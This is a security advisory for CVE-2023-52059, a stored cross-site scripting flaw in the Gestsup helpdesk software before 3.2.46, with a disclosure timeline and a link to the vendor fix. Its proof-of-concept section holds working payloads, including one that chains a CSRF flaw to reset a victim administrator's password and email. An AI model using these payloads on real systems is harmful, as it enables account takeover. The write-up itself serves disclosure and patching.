 # CVE-2023-52059

## Summary

| ID                    | CVE-2023-52059                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | XSS                                                      |
| **Title**             | Stored XSS in ticket's description and resolution fields |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of user input back-end sanitization allows remote attackers to perform a stored Cross-Site Scripting (XSS) attack in Gestsup < 3.2.46.

When creating or editing a ticket, an unprivileged user is able to intercept and edit the `Description` and `Resolution` fields directly in the request to bypass front-end sanitization and store malicious HTML content.


## Impact

An unprivileged user is then able to execute script on any user's browser who are viewing the malicious ticket.

The session cookie has the HttpOnly attribute, which protects it from client-side extraction.

However, combined with [CVE-2023-52060](../CVE-2023-52060/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### XSS

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to pop an alert when any user view the malicious ticket :

```
<img src=x onerror="alert('XSS')" />
```

![XSS PoC](./assets/xss.mp4)

### XSS and CSRF

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit [CVE-2023-52060](../CVE-2023-52060/README.md) to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```

![XSS and CSRF PoC](./assets/xss_and_csrf.mp4)


## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- ??/01/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)